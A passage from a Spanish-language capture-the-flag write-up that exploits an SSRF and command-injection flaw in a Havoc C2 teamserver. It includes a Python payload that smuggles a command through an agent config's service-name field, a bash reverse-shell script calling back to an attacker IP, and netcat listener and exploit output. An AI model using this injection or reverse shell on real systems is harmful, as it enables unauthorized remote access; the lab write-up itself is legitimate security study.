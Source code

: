 ```python
payload = {"Body": {"Info": {"AgentType": "Demon", "Arch": "x64", "Config": "{\n \"Amsi/Etw Patch\": \"None\",\n \"Indirect Syscall\": false,\n \"Injection\": {\n \"Alloc\": \"Native/Syscall\",\n \"Execute\": \"Native/Syscall\",\n \"Spawn32\": \"C:\\\\Windows\\\\SysWOW64\\\\notepad.exe\",\n \"Spawn64\": \"C:\\\\Windows\\\\System32\\\\notepad.exe\"\n },\n \"Jitter\": \"0\",\n \"Proxy Loading\": \"None (LdrLoadDll)\",\n \"Service Name\":\"" + injection + "\",\n \"Sleep\": \"2\",\n \"Sleep Jmp Gadget\": \"None\",\n \"Sleep Technique\": \"WaitForSingleObjectEx\",\n \"Stack Duplication\": false\n}\n", "Format": "Windows Service Exe", "Listener": "abc"}, "SubEvent": 2}, "Head": {
"Event": 5, "OneTime": "true", "Time": "18:39:04", "User": USER}}
payload_json = json.dumps(payload)
frame = build_websocket_frame(payload_json)
write_socket(socket_id, frame,message)
```
{% endcode %}

Crearemos nuestro archivo `payload.sh` el cual ejecuta una Reverse Shell hacía nuestro equipo. Lo compartiremos a través de un servidor web por el puerto especificado en el exploit.

```bash
❯ cat payload.sh
#!/bin/bash

/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.5/444 0>&1'

❯ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

Por otro lado, nos pondremos en escucha por el puerto indicado en la Reverse Shell.

```bash
❯ nc -nlvp 444
listening on [any] 444 ...
```

Al ejecutar el `exploit.py` modificado, le indicaremos el `target` el cual será el objetivo https://10.10.11.49 y la dirección y puertos internos del WebSocket que encontramos en la configuración de `HavocC2`.

```bash
❯ python3 SSRF.py --target https://10.10.11.49 -i 127.0.0.1 -p 40056
[***] Trying to register agent ...
[***] Success!
[***] Trying to open socket on the teamserver ...
[***] Success!
[***] Establishing connection to teamserver ...
[***] Success!
[***] Authenticating to teamserver ...
[***] Success!
[***] Creating Listener ...
[***] Success!
[***] Injecting Command ...
[***] Success!
```

Verificamos que hemos logrado explotar la vulnerabilidad de SSRF combinaco con el rce para obtener acceso al equipo. Logramos verificar la flag de **user.txt**.
